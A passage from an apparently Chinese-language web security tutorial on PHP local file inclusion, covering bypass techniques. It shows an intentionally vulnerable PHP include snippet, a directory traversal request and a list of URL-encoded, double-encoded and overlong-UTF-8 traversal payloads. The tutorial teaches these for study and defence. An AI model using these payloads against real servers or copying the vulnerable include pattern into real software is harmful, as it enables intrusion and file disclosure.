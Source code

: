 一个web服务往往会用到多个其他服务，比如ftp服务，数据库等等。这些应用也会产生相应的文件，但这就需要具体情况具体分析咯。这里就不展开了。



### **条件竞争包含**





## 0x05 绕过姿势

### 指定前缀

先考虑一下指定了前缀的情况吧。测试代码:

```
<?php
	$file = $_GET['file'];
	include '/var/www/html/'.$file;
?>
```

### 目录遍历

现在在/var/log/test.txt文件中有php代码`<?php phpinfo();?>`，则利用`../`可以进行目录遍历，比如我们尝试访问：

```
include.php?file=../../log/test.txt
```



则服务器端实际拼接出来的路径为：/var/www/html/../../log/test.txt，也即/var/log/test.txt。从而包含成功。



### 编码绕过

服务器端常常会对于`../`等做一些过滤，可以用一些编码来进行绕过。下面这些总结来自《白帽子讲Web安全》。

- 利用url编码
  - ../
    - %2e%2e%2f
    - ..%2f
    - %2e%2e/
  - ..\
    - %2e%2e%5c
    - ..%5c
    - %2e%2e\
- 二次编码
  - ../
    - %252e%252e%252f
  - ..\
    - %252e%252e%255c
- 容器/服务器的编码方式
  - ../
    - ..%c0%af
      - 注：[Why does Directory traversal attack %C0%AF work?](https://security.stackexchange.com/questions/48879/why-does-directory-traversal-attack-c0af-work)
    - %c0%ae%c0%ae/
      - 注：java中会把”%c0%ae”解析为”\uC0AE”，最后转义为ASCCII字符的”.”（点）
      - Apache Tomcat Directory Traversal
  - ..\
    - ..%c1%9c
